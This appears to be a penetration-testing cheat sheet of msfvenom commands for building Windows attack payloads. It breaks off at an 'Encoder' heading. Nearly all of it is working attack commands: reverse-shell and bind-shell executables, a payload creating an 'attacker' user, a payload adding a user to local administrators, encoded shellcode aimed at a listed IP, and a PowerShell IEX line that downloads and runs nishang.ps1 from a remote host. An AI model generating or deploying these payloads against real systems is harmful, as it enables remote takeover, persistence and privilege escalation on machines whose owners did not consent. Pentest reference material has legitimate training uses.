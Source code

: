 **/usr/share/webshells**

**MSFvenom Format:-**

`msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>`

One can also use the `-a` to specify the architecture or the `--platform`
### <ins>WINDOWS</ins>

#### **Reverse Shell**

```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe

msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe

msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe

msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe

msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe


#Bad chars ID'd
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=192.168.49.130 -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" LPORT=4444 -e x86/alpha_mixed -f c
```

#### Bind Shell

```
msfvenom -p windows/meterpreter/bind_tcp RHOST=<IP> LPORT=<PORT> -f exe > bind.exe
```

#### Create User

```
msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe
```
#### CMD Shell

```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > prompt.exe
```
#### **Execute Command**

```
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe

msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe
```
#### Encoder
